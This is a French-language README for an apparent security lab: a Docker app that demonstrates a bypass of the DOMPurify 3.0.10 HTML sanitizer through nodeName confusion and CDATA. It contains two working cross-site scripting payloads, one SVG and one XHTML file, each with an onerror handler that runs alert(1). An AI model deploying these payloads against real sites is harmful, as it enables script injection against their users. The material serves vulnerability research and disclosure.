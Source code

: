 # Dompurify 3.0.10 bypass - Confusion nodeName

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

Lien vers l'article complet : https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG 

Le fichier SVG suivant permet l'exploitation du bypass :
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```
### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```
